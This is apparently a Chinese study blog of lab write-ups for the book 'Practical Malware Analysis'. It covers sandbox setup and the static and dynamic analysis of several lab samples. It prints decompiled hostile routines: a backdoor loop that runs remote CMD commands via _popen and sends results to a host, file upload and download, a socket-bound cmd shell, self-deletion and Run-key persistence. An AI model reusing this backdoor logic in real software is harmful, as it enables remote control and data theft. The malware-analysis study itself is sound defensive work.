## 环境配置

Kali发行版携带的 `inetsim` 上一次更新时间是2020年5月，如此疏于维护，其他软件包不可能等它。因此当启动时在`dns_53_udp`那行出现了 `Can't locate object method "main_loop" via package "Net::DNS::Nameserver" at /usr/share/perl5/INetSim/DNS.pm line 69`。这样子其实DNS服务器是没有启动成功的。

网上搜索这个问题，就只有一篇内容提到：[《恶意代码实战分析》笔记](https://www.cnblogs.com/muyiGin/p/19005359)。我尝试后并未解决。

`inetsim`和`Net-DNS`的perl脚本应该都是开源的，但是不知道仓库放在哪里，既不是熟知的Github，也不是一些自由人士偏爱的Codeberg。

- [Net-DNS](https://metacpan.org/dist/Net-DNS)
- [inetsim](https://www.inetsim.org/)

这就导致问题问题没有及时解决。我在Github中找到了一个非官方的副本： <https://github.com/NLnetLabs/Net-DNS/blob/master/lib/Net/DNS/Nameserver.pm>

这个副本的更新也停滞了。我在里面虽然没看到声称的 `start_server` 方法，但是有 `main_loop` 方法。

所以我直接编辑

```shell
sudo vim /usr/share/perl5/INetSim/DNS.pm
```

把第69行改为：

```diff
- $server->start_server(0);
+ $server->main_loop();
```

另外这个`main_loop`方法在Net-DNS最新版1.54中又没了。所以我目前找到的修复流程如下：

1. 降级perl的NET::DNS模块：

 - `sudo cpan`
 - `force get NLNETLABS/Net-DNS-1.37.tar.gz`
 - `install NLNETLABS/Net-DNS-1.37.tar.gz`
 - 然后它会问你是否要降级，默认是no，请输入yes！
 - 执行`perl -MNet::DNS -e 'print $Net::DNS::VERSION,"\n"'` 是否安装预期版本。

2. 修改`/usr/share/perl5/INetSim/DNS.pm`第69行为`main_loop`方法。

在虚拟网络配置器中创建一个新的网卡：



kali改为VMnet2，然后在桌面GUI可以设置网络，手动设置一个喜欢的IP: 192.168.23.3/24, DNS: 192.168.23.3, gateway: 192.68.23.3。192.168.23.1自动被设置成宿主机的IP，不要占用。

编辑 `/etc/inetsim/inetsim.conf` 文件，更改 `service_bind_address` 和 `dns_default_ip` 为本机IP地址，即192.168.23.3

安装Windows 10虚拟机，配置网络，IP: 192.168.23.2/24, DNS: 192.168.23.3, gateway: 192.168.23.3，打开浏览器后就可以看到被 `inetsim` DNS服务器指向的网页啦~



也可以设置LAN区段，原理相同。

## HashTable

```python
import csv
from argparse import ArgumentParser
from hashlib import md5
from pathlib import Path


def find_from_csv(csv_file: Path, hash_str: str):
    with csv_file.open(mode="r") as f:
        reader = csv.reader(f)
        for row in reader:
            for i, s in enumerate(row):
                if hash_str.upper() in s:
                    return f"Chapter {row[0]} Lab {i}"
    return "Not Found"


def calc_file_hash(file: Path):
    with file.open(mode="rb") as f:
        return md5(f.read())


def main():
    arg_parser = ArgumentParser()
    arg_parser.add_argument("--file", required=True, help="计算MD5的文件名")
    arg_parser.add_argument(
        "--csv",
        default=r".\Practical Malware Analysis Labs\Hashes.csv",
        help="Hashes.csv文件",
    )
    args = arg_parser.parse_args()
    hash_str = calc_file_hash(Path(args.file)).hexdigest().upper()
    lab = find_from_csv(Path(args.csv), hash_str)
    print(f"MD5: {hash_str}\n{lab}")


if __name__ == "__main__":
    main()

```

## Lab01-04

### 1）是否有这个文件被加壳或混淆的任何迹象?如果是这样，这些迹象是什么?如果该文件被加壳，请进行脱壳，如果可能的话



使用PEiD打开，没有被加壳的迹象。如果用upx加壳，可以通过

```
upx.exe -d <file> [-o file]
```

去壳。

### 2）这个文件是什么时候被编译的?

使用PE Explorer打开，查看Time Date Stamp字段



这个文件显示是2019年8月30日UTC22:26:59被编译的。显然，这个时间是伪造的。



### 3）有没有任何导入函数能够暗示出这个程序的功能?如果是，是哪些导入函数，它们会告诉你什么?

使用Dependence Walker打开，这个程序通过`KERNEL32.DLL`导入了



`WriteFile` , `CreateFileA` , `MoveFileA` , `FindResouceA` , `LoadResource` ,`SizeofResource` , `GetTempPathA` , `GetWindowsDirectoryA` 等导入函数暗示这个程序会在操作系统目录进行文件读写操作；`WinExec` , `CreateRemoteThread` 等导入函数暗示这个程序会创建或执行远程命令； `LoadLibraryA` , `GetProcAddress` 暗示程序会在运行时加载DLL并使用其过程。

这个程序通过ADVAPI32.DLL导入了



`AdjustTokenPrivileges` 函数启用或禁用指定访问令牌中的特权。`LookupPrigilegeValueA` 函数检索指定系统上用于本地表示指定特权名称的 本地唯一标识符。这些函数涉及特权操作，可能用于提权操作。

### 4）有哪些基于主机或基于网络的迹象，可以被用来确定被这个恶意代码所感染的机器?

使用strings 工具查看这个程序，其中有



\winup.exe 和 \system32\wupdmgrd.exe 可以用来作为主机特征；[http://www.practicalmalwareanalysis.com](http://www.practicalmalwareanalysis.com) 可以用来作为网络特征。

### 5）这个文件在资源段中包含一个资源。使用Resource Hacker工具来检査资源，然后抽取资源。从资源中你能发现什么吗?

使用Resource Hacker工具打开，发现有一个资源



Save *.bin resource，然后用010Editor打开



，发现有 “MZ” 和 “This program cannot be run in DOS mode.” 这是PE文件头，说明这是一个PE文件。用IDA Pro打开分析



可以了解到，执行了临时目录下的 winup.exe ，然后从 [http://www.practicalmalwareanalysis.com/updater.exe](http://www.practicalmalwareanalysis.com/updater.exe) 下载到Windows系统目录下的\system32\wupdmgrd.exe并执行。

## Lab03-03

### 1）当你使用 Process Explorer工具进行监视时，你注意到了什么?

我发现增加了一个svchost.exe进程

 



### 2）你可以找出任何的内存修改行为吗?





通过在Process Explorer中对比Strings在Image和Memory之间的差异，这些区别符合进程注入的特质。





内存中的具有 `practicalmalwareanalysis.log` `[SHIFT]` `[ENTER]` `[BACKSPACE]` `[TAB]` `[DEL]` `[CAPS LOCK]` 等。这个程序可能是一个击键记录器。

### 3）这个恶意代码在主机上的感染迹象特征是什么?

创建了 practicalmalwareanalysis.log 日志文件。

在Process Monitor中查找该PID的WriteFile操作。当按下按键的时候，会新增WriteFile记录。



打开后看到



记录了在哪个窗口里面按了哪些键。

### 4）这个恶意代码的目的是什么?

伪装成 svchost.exe，变成击键记录器。

## Lab09-01

使用IDA 32bit和OllyICE打开Lab09-01.exe。
IDA显示程序入口地址是 0x402af0 。在OllyICE使用Ctrl-G跳转到该地址。

IDA里按一下Tab键，看反编译后的 `main()` 函数：



这边我已经基本分析完了，所以看到的函数名已经被我修改过了。下面我将回顾整个分析过程。

### 无传参分支

首先第一个逻辑分支 `if(argc == 1)` ：
来看 `has_reg_param` 函数的逻辑：



查询注册表有没有 `"SOFTWARE\\Microsoft \\XPS"` 的值。注意“Microsoft ”后面有一个空格。

> 如果遇到不了解的Windows API，可以在[开发人员说明技术概述](https://learn.microsoft.com/zh-cn/windows/win32/api/_winprog/)中查询。

对于第一次运行的机器，是查不到这个注册表项的，因此这个函数将会返回0。

随后程序控制流进入 `delete_self` 函数，其反编译结果一目了然：

```c
void __cdecl __noreturn delete_self()
{
  CHAR Filename; // [sp+Ch] [bp-208h]@1
  CHAR Parameters; // [sp+110h] [bp-104h]@1

  GetModuleFileNameA(0, &Filename, 0x104u);
  GetShortPathNameA(&Filename, &Filename, 0x104u);
  strcpy(&Parameters, aCDel);
  strcat(&Parameters, &Filename);
  strcat(&Parameters, aNul);
  ShellExecuteA(0, 0, File, &Parameters, 0, 0);
  exit(0);
}
```

具体而言，执行了

```cmd
cmd.exe /c del <本文件名> >> NUL
```

将自身删除。

我再来看有传递给恶意程序参数的分支。设置OllyICE的参数后重启。





`is_abcd` 函数接受了程序启动参数的最后一个参数。 `is_abcd` 写得有点绕，但不难看出校验了字符串：

```c
int __cdecl sub_402510(int a1)
{
  int result; // eax@2
  char v2; // [sp+4h] [bp-4h]@5
  char v3; // [sp+4h] [bp-4h]@7

  if ( strlen((const char *)a1) == 4 )
  {
    if ( *(_BYTE *)a1 == 97 )
    {
      v2 = *(_BYTE *)(a1 + 1) - *(_BYTE *)a1;
      if ( v2 == 1 )
      {
        v3 = 99 * v2;
        if ( v3 == *(_BYTE *)(a1 + 2) )
          result = (char)(v3 + 1) == *(_BYTE *)(a1 + 3);
        else
          result = 0;
      }
      else
      {
        result = 0;
      }
    }
    else
    {
      result = 0;
    }
  }
  else
  {
    result = 0;
  }
  return result;
}
```

来到OllyICE中，Ctrl-G跳转到 0x402b2e ，F2添加断点，F9运行到改断点，F7单步步入。

双击汇编代码，直接改返回值为1：

```asm
mov    eax,1
ret
```



Ctrl-F9执行到返回。

通过校验后，接下来，程序会分别根据传入第一个参数是 `-in` , `-re` , `-c` , `-cc` 做出不同的处理。我分别来看。

### `-in` 分支

又分两种情况：

```cmd
Lab09-01.exe -in [Optional] abcd
```

区别在于 `[Optional]` 参数存放在 `ServiceName` 中，不提供则使用 `get_file_name` 作为 `ServiceName` 。



来看 `get_file_name` 。

```c
int __cdecl get_file_name(char *a1)
{
  int result; // eax@2
  CHAR Filename; // [sp+0h] [bp-400h]@1

  if ( GetModuleFileNameA(0, &Filename, 0x400u) )
  {
    _splitpath(&Filename, 0, 0, a1, 0);
    result = 0;
  }
  else
  {
    result = 1;
  }
  return result;
}
```

将字符串存放在 `ServiceName` 指针中。

再看 `install` ：

查看调用图



我们发现它调用了 `CopyFileA` , `CreateServiceA` , `OpenServiceA` , `ChangeServiceConfigA` , `RegCreateKeyExA` , `RegSetValueExA` 等API，就能猜到它的目的了。具体而言，安装一个名为 `ServiceName` 的服务（有则取出其`BinaryPathName`），把本程序复制到SystemRoot下，跟SystemDir中的 `kernel32.dll` 设置成相同的时间。设置`"SOFTWARE\\Microsoft \\XPS"` 的值为 `"ups http://www...." 80 60` 。

这就是 `-in` 参数指定的安装功能了。

执行安装服务的代码是

```c
hServicea = CreateServiceA(hSCManager, lpServiceName, &DisplayName, 0xF01FFu, 0x20u, 2u, 1u, &Src, 0, 0, 0, 0, 0);
```

查阅[CreateServiceA](https://learn.microsoft.com/zh-cn/windows/win32/api/winsvc/nf-winsvc-createservicea)得知这里创建了一个自动启动服务，与一个或多个其他服务共享进程的服务。

### `-re` 分支

同样两种情况：

```cmd
Lab09-01.exe -in [Optional] abcd
```



`delete_all` 逻辑与安装相反：删除 `ServiceName` 服务；删除程序；注册表项设置成0。

### `-c` 分支

接受四个指定参数：

```cmd
Lab09-01.exe -c <> <> <> <> abcd
```



显然，将四个指定参数更改到注册表项中。

### `-cc` 分支

只能是

```cmd
Lab09-01.exe -cc abcd
```

这种形式。



获取注册表项中的四个值，调用 `printf` 函数打印出来。虽然IDA没有自动识别到 `printf` 但是可以从它接收两个参数以及前面的字符串看出来。如果没有获取到注册表值，则跳过打印，什么也不做。

### 远程后门

在无传参分支中刚才还有一种情况没有讨论，就是如果查询到注册表，调用 `try_react_loop` 函数。

虽然不用仔细分析也能知道是一个后门，但其实这边的逻辑才是最复杂的，要理清需要一点时间。

进入这个函数：

```c
signed int try_react_loop()
{
  int v1; // eax@5
  char v2; // [sp+0h] [bp-1000h]@1
  char v3; // [sp+400h] [bp-C00h]@1
  char malware_host; // [sp+800h] [bp-800h]@1
  char v5; // [sp+C00h] [bp-400h]@1

  while ( 1 )
  {
    if ( get_reg_params(&v3, 1024, &malware_host, 1024, &v2, 1024, &v5) )
      return 1;
    atoi(&v2);
    if ( react_with_remote(&malware_host) )
      break;
    v1 = atoi(&v5);
    Sleep(1000 * v1);
  }
  return 1;
}
```

有两个退出点：

1. `get_reg_params` 返回1，即没有键或值为0
2. `react_with_remote(&malware_host)`返回1，即执行失败的情况。

在这里读取前面服务安装后设置的最后一个注册表值60，然后 `Sleep` 60秒。

进入 `react_with_remote(&malware_host)` 函数，还是比较复杂的。

```c
int __cdecl react_with_remote(char *malware_host)
{
  const char *v2; // ST2C_4@4
  int v3; // ST30_4@4
  char *v4; // eax@6
  u_short v5; // ST24_2@6
  char *v6; // ST28_4@6
  char *v7; // eax@10
  u_short v8; // ST1C_2@10
  char *lpFileName; // ST20_4@10
  char *v10; // eax@14
  const char *v11; // ST18_4@14
  u_short hostshort; // [sp+4h] [bp-424h]@14
  FILE *v13; // [sp+8h] [bp-420h]@14
  char v14; // [sp+28h] [bp-400h]@1

  if ( extract_str_remote(&v14, 1024) )
    return 1;
  if ( !strncmp(&v14, aSleep, strlen(aSleep)) )
  {
    strtok(&v14, SPACE1);
    v2 = strtok(0, SPACE1);
    v3 = atoi(v2);
    Sleep(1000 * v3);
  }
  else if ( !strncmp(&v14, aUpload, strlen(aUpload)) )
  {
    strtok(&v14, SPACE1);
    v4 = strtok(0, SPACE1);
    v5 = atoi(v4);
    v6 = strtok(0, SPACE1);
    if ( write_from_remote(malware_host, v5, v6) )
      return 1;
  }
  else if ( !strncmp(&v14, aDownload, strlen(aDownload)) )
  {
    strtok(&v14, SPACE1);
    v7 = strtok(0, SPACE1);
    v8 = atoi(v7);
    lpFileName = strtok(0, SPACE1);
    if ( send_to_remote(malware_host, v8, lpFileName) )
      return 1;
  }
  else if ( !strncmp(&v14, aCmd, strlen(aCmd)) )
  {
    strtok(&v14, SPACE1);
    v10 = strtok(0, SPACE1);
    hostshort = atoi(v10);
    v11 = strtok(0, asc_40C0A4);
    v13 = _popen(v11, aRb);
    if ( !v13 )
      return 1;
    if ( send_exe_result(malware_host, hostshort, v13) )
    {
      _pclose(v13);
      return 1;
    }
    _pclose(v13);
  }
  else
  {
    strncmp(&v14, aNothing, strlen(aNothing));
  }
  return 0;
}
```

`extract_str_remote(&v14, 1024)` 对 `v14` 进行了修改，然后分别比较是不是以"SLEEP","UPLOAD","DOWNLOAD","CMD","NOTHING"开头，并做出相应的处理。 `strtok` 用于分割字符串，不清楚用法的话可以 `man strtok` 查一下。



从 `get_conn` 中推出 `a3` 放在"GET "后，"HTTP/1.0"前，按照HTTP协议，只能是个URL。这是随机生成的。

`strstr` 用于寻找子字符串。查找出两个"\`\`\`\`\`" 之间的部分，作为接下来的指令。



#### SLEEP指令

```c
  if ( !strncmp(&v14, aSleep, strlen(aSleep)) )
  {
    strtok(&v14, SPACE1);
    v2 = strtok(0, SPACE1);
    v3 = atoi(v2);
    Sleep(1000 * v3);
  }
```

执行 `sleep` 秒数。

#### UPLOAD指令

```c
 else if ( !strncmp(&v14, aUpload, strlen(aUpload)) )
  {
    strtok(&v14, SPACE1);
    v4 = strtok(0, SPACE1);
    v5 = atoi(v4);
    v6 = strtok(0, SPACE1);
    if ( write_from_remote(malware_host, v5, v6) )
      return 1;
  }
```

`write_from_remote` 从远程socket上接受数据并写到本地文件上。

#### DOWNLOAD指令

```c
  else if ( !strncmp(&v14, aDownload, strlen(aDownload)) )
  {
    strtok(&v14, SPACE1);
    v7 = strtok(0, SPACE1);
    v8 = atoi(v7);
    lpFileName = strtok(0, SPACE1);
    if ( send_to_remote(malware_host, v8, lpFileName) )
      return 1;
  }
```

`send_to_remote` 将本地文件发送到远程socket上。

#### CMD指令

```c
  else if ( !strncmp(&v14, aCmd, strlen(aCmd)) )
  {
    strtok(&v14, SPACE1);
    v10 = strtok(0, SPACE1);
    hostshort = atoi(v10);
    v11 = strtok(0, asc_40C0A4);
    v13 = _popen(v11, aRb);
    if ( !v13 )
      return 1;
    if ( send_exe_result(malware_host, hostshort, v13) )
    {
      _pclose(v13);
      return 1;
    }
    _pclose(v13);
  }
```

```c
int __cdecl send_exe_result(char *name, u_short hostshort, FILE *a3)
{
  int result; // eax@2
  int v4; // [sp+0h] [bp-210h]@4
  unsigned int v5; // [sp+4h] [bp-20Ch]@3
  char buf; // [sp+8h] [bp-208h]@3
  int len; // [sp+208h] [bp-8h]@3
  SOCKET s; // [sp+20Ch] [bp-4h]@1

  s = 0;
  if ( sub_401640((int)&s, name, hostshort) )
  {
    result = 1;
  }
  else
  {
    do
    {
      v5 = 0;
      len = fread(&buf, 1u, 0x200u, a3);
      do
      {
        v4 = send(s, &buf, len, 0);
        if ( v4 == -1 )
        {
          shutdown_socket(&s);
          return 1;
        }
        v5 += v4;
      }
      while ( v5 < len );
    }
    while ( len );
    result = shutdown_socket(&s) != 0;
  }
  return result;
}
```

> **popen**函数是C语言中用于执行shell命令并获取输出结果的函数。它通过创建一个管道，然后调用fork产生一个子进程，让子进程执行指定的命令。popen建立的管道会连接到子进程的标准输出设备（stdout）或标准输入设备（stdin），然后返回一个文件指针。这样，进程就可以利用这个文件指针来读取子进程的输出或写入到子进程的标准输入中。

#### NOTHING指令

```c
  else
  {
    strncmp(&v14, aNothing, strlen(aNothing));
  }
```

不执行任何代码。

### 小结

至此，我主要通过静态分析的方式完成对Lab09-01.exe的行为分析，掌握了部分IDA的使用方法；OllyICE动态分析作为辅助，实践了设置断点、跟随数据窗口、修改指令、查看函数调用参数等基本使用方法。

**Useful Reference**:

- <https://github.com/L3cr0f/pma_course/blob/master/Labs/Lab_09.md>
- <https://bbs.kanxue.com/thread-267066-1.htm>

## Lab09-02

首先使用PEiD查看exe信息，无壳。



在IDA中我注意到 `strcmp` 函数：



`strrchr` 函数用于在一个字符串中查找一个字符最后一次出现的位置。



运行OllyICE，发现果然要求程序名称为“ocl.exe”，否则退出。



可以改名重新运行，也可以直接将eax修改成0：



继续运行到下面的 call 0x401089

步过，返回的异或操作后的字符串：



回到IDA，接下来是网络编程的代码，调用了 `remote_cmd` 函数：

```c
int __cdecl remote_cmd(int a1, int a2, int a3, int a4, void *socket)
{
  struct _STARTUPINFOA StartupInfo; // [sp+0h] [bp-58h]@1
  int v7; // [sp+44h] [bp-14h]@1
  struct _PROCESS_INFORMATION ProcessInformation; // [sp+48h] [bp-10h]@1

  v7 = 0;
  memset(&StartupInfo, 0, 0x44u);
  StartupInfo.cb = 68;
  memset(&ProcessInformation, 0, 0x10u);
  StartupInfo.dwFlags = 257;
  StartupInfo.wShowWindow = 0;
  StartupInfo.hStdInput = socket;
  StartupInfo.hStdError = socket;
  StartupInfo.hStdOutput = socket;
  v7 = CreateProcessA(0, CommandLine, 0, 0, 1, 0, 0, 0, &StartupInfo, &ProcessInformation);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  return 0;
}
```

调用[CreateProcessA](https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)向远程socket提供 `cmd` 命令行，所以，这是一个后门程序。

## Lab09-03

### 1. Lab09-03.exe导入了哪些DLL？

在IDA的Import可以看到四个DLL： `DLL1` , `DLL2` , `Kernel32` , `NetAPI32` 。

在 `main` 函数中，还可以看到运行时动态加载的DLL：



值得注意的是， `LoadLibraryA` 不止一次被使用，



`MessageBox` 推测是Windows的消息框。这已不是程序编写的函数，而是系统的函数。

所以一共导入六个DLL。

### 2、`DLL1.dll`、`DLL2.dll`、`DLL3.dll`要求的基地址是多少？

查看基地址： IMAGE_NT_HEADERS -> IMAGE_OPTIONAL_HEADER -> Image Base



可以用 PEview 查看，也可以用 PEiD查看：点击“子系统”右边的“>”即可查看PE细节。



还可以用 PE Explorer查看：



三个DLL的镜像基址都是 10000000h

### 3. 当使用`OllyDbg`调试Lab09-03.exe时，为`DLL1.dll`、`DLL2.dll`、`DLL3.dll`分配的基地址是什么？

执行过动态装载函数后，



“查看” -> “内存”



> 不同的机器装载位置可能不一样哦

### 4. 当Lab09-03.exe调用`DLL1.dll`中的一个导入函数时，这个导入函数都做了些什么？

导入函数名为 `DLL1Print`。执行过后OllyICE的控制台出现

```text
DLL1 mystery data 1032
DLL2 mystery data 44
```

IDA打开 `DLL1.dll` ，追踪到

```c
int DLL1Print()
{
  return print((int)aDll1MysteryDat, current_proc_id);
}
```

在`DLLMain`中

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  BOOL result; // eax@1

  result = GetCurrentProcessId();
  current_proc_id = result;
  LOBYTE(result) = 1;
  return result;
}
```

所以这是打印出：DLL 1 mystery data "进程id"。

### 5. 当Lab09-03.exe调用`WriteFile`的函数时，它写入的文件名是什么？

```c
  hFile = (HANDLE)DLL2ReturnJ();
  WriteFile(hFile, aMalwareanalysi, 0x17u, &NumberOfBytesWritten, 0);
```

用IDA打开 `DLL2.dll` 查看 `DLL2ReturnJ` 函数，它返回的是`DLLMain()`中的`tmp_handler`：

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  BOOL result; // eax@1

  result = (BOOL)CreateFileA(FileName, 0x40000000u, 0, 0, 2u, 0x80u, 0);
  tmp_handler = result;
  LOBYTE(result) = 1;
  return result;
}
```

追踪`FileName` 常量，`temp.txt`。所以写入的文件名就是`temp.txt`。

### 6. 当Lab09-03.exe使用`NetScheduleJobAdd`创建一个job时，从哪里获取第二个参数的数据？

第二个参数是这里的 `Buffer`。

```c
  hModule = LoadLibraryA(DLL3);
  v9 = (void (*)(void))GetProcAddress(hModule, ProcName);
  v9();
  v7 = GetProcAddress(hModule, aDll3getstructu);
  ((void (__cdecl *)(_DWORD))v7)(&Buffer);
  NetScheduleJobAdd(0, Buffer, &JobId);
```

`v7` 是一个函数指针，修改了 `Buffer` 的位置。而[# GetProcAddress 函数](https://learn.microsoft.com/zh-cn/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)从指定的动态链接库 (DLL) 检索导出函数 (也称为过程) 或变量的地址。

因此到 `DLL3` 中查看 `DLL3GetStructure` 函数：

```c
_DWORD *__cdecl DLL3GetStructure(_DWORD *a1)
{
  _DWORD *result; // eax@1

  result = a1;
  *a1 = &dword_1000B0A0;
  return result;
}
```

这些指针操作看得我有点困惑。实质就是把 `dword_1000B0A0` 的位置赋值给 `Buffer` ，让指针 `Buffer` 指向 `dword_1000B0A0` 。

追踪  `dword_1000B0A0`



```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  BOOL result; // eax@1

  result = MultiByteToWideChar(0, 0, aPingWww_malwar, -1, &WideCharStr, 50);
  dword_1000B0AC = (int)&WideCharStr;
  dword_1000B0A0 = 3600000;
  dword_1000B0A4 = 0;
  byte_1000B0A8 = 127;
  byte_1000B0A9 = 17;
  LOBYTE(result) = 1;
  return result;
}
```

到这里我不知道要干什么了。突破点在[netScheduleJobAdd 函数](https://learn.microsoft.com/zh-cn/windows/win32/api/lmat/nf-lmat-netschedulejobadd)说明了第二个参数： `[in] Buffer`

指向描述要提交的作业 [的AT_INFO](https://learn.microsoft.com/zh-cn/windows/desktop/api/lmat/ns-lmat-at_info) 结构的指针。 有关使用不同的作业属性计划作业的详细信息，请参阅以下“备注”部分和 [网络管理功能缓冲区](https://learn.microsoft.com/zh-cn/windows/desktop/NetMgmt/network-management-function-buffers)。

```c
typedef struct _AT_INFO {
  DWORD_PTR JobTime;
  DWORD     DaysOfMonth;
  UCHAR     DaysOfWeek;
  UCHAR     Flags;
  LPWSTR    Command;
} AT_INFO, *PAT_INFO, *LPAT_INFO;
```

实际上就是IDA没有把这块内存识别为结构体指针。在IDA中结构体窗口中增加该结构体：点击Insert，选择 Add standard structure，选择_AT_INFO。



然后在该内存位置 `.data 1000B0A0` 处点击 "Edit" -> "Struct var" 选择刚才添加的 `_AT_INFO` 。

回到 `DLLMain` 重新反编译，即可正确识别该结构体。

```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  BOOL result; // eax@1

  result = MultiByteToWideChar(0, 0, aPingWww_malwar, -1, &WideCharStr, 50);
  stru_1000B0A0.Command = &WideCharStr;
  stru_1000B0A0.JobTime = 3600000;
  stru_1000B0A0.DaysOfMonth = 0;
  stru_1000B0A0.DaysOfWeek = 127;
  stru_1000B0A0.Flags = 17;
  LOBYTE(result) = 1;
  return result;
}
```

这个网络定时任务会**每天**执行转换成全角字符的`ping www.malwareanalysisbook.com` 。

> 这个有意思！

### 7. 在运行或调试Lab09-03.exe时，你会看到Lab09-03.exe打印出三块神秘数据。三个神秘数据分别是什么？

前面已经看过了，DLL1打印进程ID，DLL2打印文件句柄，刚才看到的

```c
  hModule = LoadLibraryA(DLL3);
  v9 = (void (*)(void))GetProcAddress(hModule, ProcName);
  v9();
```

`v9`就是调用DLL3的 `DLL3Print` 函数：

```c
int DLL3Print()
{
  return print(aDll3MysteryDat, &WideCharStr);
}
```

在OllyICE中的 0x40105c处打断点，单步步入：



控制台显示

```text
DLL3 mystery data 4108480
```

是`ping www.malwareanalysisbook.com`在内存中的地址（0x3EB0C0的十进制）。

### 8. 如何将`DLL2.dll`加载到`IDA Pro`中，使得它与`OllyDbg`使用的加载地址匹配？

第一种方式，在打开IDA的使用勾选 Manual Load，输入OllyICE中显示的 0x380000

第二种方式，"Edit" -> "Segments" -> "Rebase program..." 输入 0x380000

> 至此，第九章三个程序都已经分析完毕了，很有意思！收获不小！

## Lab06-02

经过了第九章实验的学习，第六章的应该不在话下！

### 1、`main`函数调用的第一个子过程执行了什么操作？

进入 0x401136 的 call 语句

```c
signed int net_state()
{
  signed int result; // eax@2

  if ( InternetGetConnectedState(0, 0) )
  {
    print(aSuccessInterne);
    result = 1;
  }
  else
  {
    print(aError1_1NoInte);
    result = 0;
  }
  return result;
}
```

从调用的函数可以看出，这个函数获取网络连接状态并打印。

### 2、位于`0x40117F`的子过程是什么？

从传入的字符串来推断，这个函数我已经见过很多次了，就是 `printf` 函数。



### 3、被`main`函数调用的第二个子过程做了什么？



首先调用 `InternetOpenA` , `InternetOpenUrlA` , `InternerReadFile` 等函数访问网页，并将内容放在 `Buffer` 里面。

接下来对 `Buffer` 进行判等：



这里IDA显示不同的变量，实际上他们是 `Buffer` 后面连续的内存。



从 `InternetReadFile` 的参数可以推断 `Buffer` 的大小可能是 512。

修改变量为数组：



这样更清晰了！



所以这个函数的功能是从`http://www.practicalmalwarenalysis.com`下载网页，并且解析第一行的注释，如果成功，返回指向注释内容的指针。

### 4、在这个子过程中使用了什么类型的代码结构？

这是条件判断（`if`）控制结构。

### 5、在这个程序中有任何基于网络的指示吗？

头部Agent字段是 `"Internet Explorer 7.5/pma"`

URL是 `http://www.practicalmalwarenalysis.com`

### 6、这个恶意代码的目的是什么？

判断主机的网络连接情况，如果有网络连接，访问 `http://www.practicalmalwarenalysis.com` 并解析第一行注释，将注释内容打印出来。

## Lab06-03

查看调用图，大致了解其功能：



### 比较在main函数与实验6-2的main函数的调用。从main中调用的新的函数是什么？

它是 sub_401130 。

### 这个新的函数使用的参数是什么？



两行 push 说明它有两个参数。第一个参数是 `parse_command`的返回值，即注释的内容指针。第二个参数是程序运行的第一个参数，即程序的名称。

### 这个函数包含的主要代码结构是什么？


把第一个参数减去'a‘，以及调表，典型的switch分支结构。

### 这个函数能够做什么？

case 'a': 创建 `C:\\Temp` 目录

case 'b': 复制此程序到 `C:\\Temp\cc.exe`

case 'c': 删除 `C:\\Temp\cc.exe`

来看 case 'd'：



注意这个`Software\Microsoft\Windows\CurrentVersion\Run` : The `Run` registry key in Windows controls programs that automatically start when a user logs in, with separate keys for individual users and all users.

所以这个块将`Software\Microsoft\Windows\CurrentVersion\Run\Malware`  的值设置为 `C:\\Temp\\cc.exe` ，它能够在用户登入时自启动。

case 'e': `Sleep` 100秒

### 在这个恶意代码中有什么本地特征吗？



这些可以作为本地特征。

### 这个恶意代码的目的是什么？

运行这个程序，可以从远程获得指令，创建登入自启动程序。

## Lab06-04

### 在实验6-3和6-4的main函数中的调用之间的区别是什么？什么新的代码结构已经被添加到main中？

循环结构。

### 这个实验的解析HTML的函数和前面实验中的哪些有什么区别？

`parse_command` 接收一个整型参数，用于 `sprintf` 。字符串变成了 `'Internet Explorer 7.50/pma%d'` ，所以每次发送的Agent字段都不一样。

### 这个程序会运行多久？（假设它已经连接到互联网。）

如果解析的HTML字符不是 'e' ，那么每次循环`Sleep` 1分钟，运行1440次循环就是24小时。

如果解析的HTML字符是 'e'，每次循环总共 `Sleep` 160秒。

### 在这个恶意代码中有什么新的基于网络的迹象吗？

 User-Agent字段变成了 `'Internet Explorer 7.50/pma%d'` ，所以每次发送的User-Agent字段都不一样。

### 这个恶意代码的目的是什么？

- 首先判断是否有可用的Internet连接：如果不存在就停止运行；
- 设置循环次数1440，程序使用一个独特用户代理下载网页：该网页包含了`<!--`开始的注释；
 	- 程序解析其后的字符；
 	- 将解析出来的字符根据switch进行操作：
  		- (a)：创建 `C:\\Temp` 目录
  		- (b)：复制此程序到 `C:\\Temp\cc.exe`
  		- (c)：删除 `C:\\Temp\cc.exe`
  		- (d)：将`Software\Microsoft\Windows\CurrentVersion\Run\Malware`  的值设置为 `C:\\Temp\\cc.exe` ，它能够在用户登入时自启动。
  		- (e): `Sleep` 100秒

## Lab07-01

`main` 函数比较简短：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  SERVICE_TABLE_ENTRYA ServiceStartTable; // [sp+0h] [bp-10h]@1
  int v5; // [sp+8h] [bp-8h]@1
  int v6; // [sp+Ch] [bp-4h]@1

  ServiceStartTable.lpServiceName = aMalservice;
  ServiceStartTable.lpServiceProc = (LPSERVICE_MAIN_FUNCTIONA)sub_401040;
  v5 = 0;
  v6 = 0;
  StartServiceCtrlDispatcherA(&ServiceStartTable);
  return sub_401040();

```

[`StartServiceCtrlDispatcherA` 函数](https://learn.microsoft.com/zh-cn/windows/win32/api/winsvc/nf-winsvc-startservicectrldispatchera)预示了程序用来创建一个服务，并且通常被立即调用。这个服务的主函数就是 `sub_401040` 。



尝试取得名为 `HGL345` 的互斥锁，然后创建一个名为 `Malservice` 的服务，启动本程序，其中`startType` 参数是2，说明这是一个服务控制管理器在系统启动期间自动启动的服务。`CreateWaitableTimerA` 创建或打开可等待的计时器对象。`SetWaitableTimer` 激活指定的可等待计时器。 当到期时间到达时，计时器将发出信号，设置计时器的线程将调用可选的完成例程。 `lpDueTime` 被设置为2100年第一周第一天。



`WaitForSingleObject` 等待指定的对象处于信号状态或超时间隔过，`dwMilliseconds` 设置成**INFINITE**，则仅当发出对象信号时，函数才会返回，也就是无限期等待下去。

随后启动20个线程，执行 `StartAdderss` 函数：

```c
